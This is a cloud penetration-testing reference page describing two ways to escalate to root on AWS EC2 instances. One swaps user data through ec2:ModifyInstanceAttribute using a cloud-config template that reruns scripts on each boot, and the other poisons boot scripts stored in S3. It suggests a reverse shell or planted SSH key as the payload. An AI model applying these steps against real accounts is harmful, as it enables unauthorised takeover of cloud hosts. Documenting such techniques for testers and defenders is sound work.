```yaml
---
author_name: Nick Frichette
title: EC2 Privilege Escalation Through User Data
description: How to escalate privileges on an EC2 instance by abusing user data.
---
```


If you've gained a foothold on an EC2 instance, use these these techniques to escalate privileges to root/System on the host.

## ec2:ModifyInstanceAttribute

<div class="grid cards" markdown>
-   :material-shield-lock:{ .lg .middle } __Required IAM Permissions__

    ---

    - [ec2:ModifyInstanceAttribute](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ec2/modify-instance-attribute.html)

-   :material-shield-plus:{ .lg .middle } __Recommended but not Required IAM Permissions__

    ---

    - [ec2:StartInstances](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ec2/start-instances.html)
    - [ec2:DescribeInstances](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ec2/start-instances.html)
    - [ec2:StopInstances](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ec2/stop-instances.html)
</div>
<div class="grid cards" markdown>
-   :material-account:{ .lg .middle } __Original Research__

    ---

    [aws_pwn:elevation](https://github.com/dagrz/aws_pwn/blob/master/elevation/bouncy_bouncy_cloudy_cloud.py) by [Daniel Grzelak](https://twitter.com/dagrz)
</div>

If an adversary has access to the modify-instance attribute permission they can leverage it to escalate to root/System on an EC2 instance.

Usually, user data scripts are only run the first time the instance is started. 

One trick to bypass this limitation uses [the `#cloud-boothook` directive](https://docs.aws.amazon.com/linux/al2/ug/amazon-linux-cloud-init.html), which instructs the instance to run the code on each boot.


An alternative approach uses a special [cloud-init](https://aws.amazon.com/premiumsupport/knowledge-center/execute-user-data-ec2/) `cloud-config` to prompt a run every time the instance restarts.

To do this, first create a file in the following format.

```
Content-Type: multipart/mixed; boundary="//"
MIME-Version: 1.0

--//
Content-Type: text/cloud-config; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
Content-Disposition: attachment; filename="cloud-config.txt"

#cloud-config
cloud_final_modules:
- [scripts-user, always]

--//
Content-Type: text/x-shellscript; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
Content-Disposition: attachment; filename="userdata.txt"

#!/bin/bash
**commands here**
--//
```

Modify the ```commands here``` section to do whatever action you want. Setting a reverse shell, adding an ssh key to the default user, etc. are all good options.

Once you've done that, convert the file to base64. Linux can do this with the following command.

```base64 file.txt > file.b64.txt```

Windows can do this with the following command.

```certutil -encode file.txt tmp.b64 && findstr /v /c:- tmp.b64 > file.b64.txt```

Now that you've base64 encoded your payload, you will leverage the [ec2:ModifyInstanceAttribute](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ec2/modify-instance-attribute.html) API call to change the user data of the target instance. 

!!! Note 
    The instance will need to be stopped to modify its user data. You'll either have to stop it yourself, or wait for something else to stop it.

```
aws ec2 modify-instance-attribute \
--instance-id=xxx \
--attribute userData \
--value file://file.b64.txt
```

With that change made, simply start the instance again and your command will be executed with root/System.

## Leverage scripts in S3

A common pattern when using EC2 is to define a [user data](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/user-data.html) script to be run when an instance is first started or after a reboot. These scripts are typically used to install software, download and set a config, etc. Oftentimes the scripts and packages are pulled from S3 and this introduces an opportunity for a developer/ops person to make a mistake.

If the IAM role is too permissive and allows the role to write to that location, an adversary can leverage this for privilege escalation. Additionally, if there is any other kind of misconfiguration on the bucket itself, or another role which has access gets compromised, an adversary can take advantage of this as well.

Take the following user data script:

```
#!/bin/bash
aws s3 cp s3://example-boot-bucket/start_script.sh /root/start_script.sh
chmod +x /root/start_script.sh
/root/start_script.sh
```

On first launch, the EC2 instance will pull the start_script from S3 and will run it. If an adversary can write to that location, they can escalate privileges or gain control of the EC2 instance.

!!! Note
    In addition to new instances being spun up or after a reboot, poisoning the scripts/applications can also effect EC2 instances in an [Auto Scaling Group](https://docs.aws.amazon.com/autoscaling/ec2/userguide/AutoScalingGroup.html).
